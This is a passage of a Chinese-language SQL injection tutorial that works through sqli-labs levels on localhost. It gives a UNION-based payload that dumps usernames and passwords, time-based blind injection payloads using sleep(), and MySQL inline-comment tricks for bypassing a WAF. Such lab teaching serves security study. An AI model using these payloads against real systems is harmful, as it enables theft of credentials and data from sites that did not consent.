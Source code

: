    ```http
   http://127.0.0.1/sqli/Less-1/?id=-1' UNION ALL SELECT 1,group_concat(username,0x3a,password),3 from users --+
   ```

   * 0x3a表示引号，可以分开用户名和密码
   * $\color{red}{返回结果}$  
   ![f9]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f9.png)

***
## 关于mysql的注释
### 常见注释符
* #或--+或/**/ 

### 内联注释
* 在注释的开头处加上！便可执行mysql语句，只对mysql有效，常用来绕过WAF  
![f10]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f10.png)  
![f11]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f11.png)

***
## 基于时间的延时注入
### 以less-9为例
![f12]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f12.png) 

* 测试id参数发现不管是否加引号都会返回相同的结果，所以无法使用报错注入
* 这里可以看一下PHP源码  
![f14]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f14.png)  

### 利用if语句，若真则返回1，若假则延时3s
$\color{red}{真，时间为2s左右}$  
```http
http://127.0.0.1/sqli/Less-9/?id=1' and if(ascii(substr(database(),1,1))=115,1,sleep(3)) --+
```
![f13]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f13.png)   
$\color{red}{假，时间为5s左右}$  
```http
http://127.0.0.1/sqli/Less-9/?id=1' and if(ascii(substr(database(),1,1))=116,1,sleep(3)) --+
```
![f15]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f15.png)   

> * 注意payload要加and

***
## 布尔盲注
### 以less-8为例

